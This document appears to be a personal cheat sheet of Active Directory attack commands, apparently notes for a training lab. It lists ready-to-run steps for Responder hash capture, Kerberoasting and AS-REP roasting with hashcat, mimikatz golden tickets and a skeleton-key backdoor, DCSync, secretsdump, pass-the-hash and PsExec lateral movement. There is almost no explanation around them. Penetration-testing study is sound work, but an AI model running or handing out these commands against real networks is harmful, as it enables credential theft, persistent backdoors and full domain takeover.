 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)
  4. https://www.xmind.net/m/5dypm8/#
  5. You may need to portforward (but probably not)

# Useful #
1. Get active logged on users
	a. Get-NetLoggedon -ComputerName clientXYZ
2. In 2.05 remember it looks up service principal name and you find iis and hostname for a webserver. 

# LDAP #
1. Basic Search
 
  a. ldapsearch -h $ip -p 389 -x -s base
  
2. Null creds to try and get list of usernames

  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)
  

# Responder #
1. Start up responder

  a. sudo responder -I tun0
  
  b. Call request either smb or website (download a file from your python server)
  
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
  
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
  
    a Rubeus.exe harvest /interval:30
   
  2. Brute force Password1 against all users
  
    a Rubeus.exe brute /password:Password1 /noticket
    
  3. Kerberoast -dump hashes of any kerberoastable users
  
    a Rubeus.exe kerberoast
   
    b Copy hash to hash.txr watch out for spaces
    
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
  
    a. rubeus.exe asreproast
    
    b Get all accounts that do not require pre authentication
    
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    
    d hashcat -m 18200 hash.txt rockyou.txt
    
  2. Impacket GetNPUsers.py
  
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
   
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    
    c Choose a ticket with admin (or user you want)
    
    d kerberos::ptt <ticket file name>
	
    e exit mimi
	
    f klist (show that you have now changed)
	
 3. Gold and Silver Tickets
    a run as admin
	
    b privilege::debug
	
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
	
    d Gold ticket ->
	i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
	
 4. Mimikatz skeleton
	
		a. run as admin
	
		b. privilege::debug
	
		c. misc::skeleton
	
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1!

	
5. Mimikatz Domain Controller Synchronization
	
	a. lsadump::dcsync /user:Administrator
	You will get the NTLM hash
	
	
	# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
	
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
	
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
	
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
	
    b. Powershell schedule task to run rev shell with admin priv?

  # Lateral Movements #

 1. Pass the Hash - You have NTLM creds
	On Kali -> pth-winexe -U bob%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2
eb3b9f05c425e //$ip cmd

2. Over Pass the Hash
	a. Right click a program like notepad and "run as different user"
	
	b. After authneticated that users NTLM hash has now been stored
	
	c. run mimikatz with admin priv 
	
	d. sekurlsa::pth /user:bob /domain:controller.local /ntlm:e2b475c11da2a0748290d
87aa966c327 /run:Powershell.exe
	
	e. net use //dc3  (generate TGT)
	
	f. .\PsExec.exe \\dc3 cmd.exe  (you are now on the dc machine)

	
DCOM
	
	

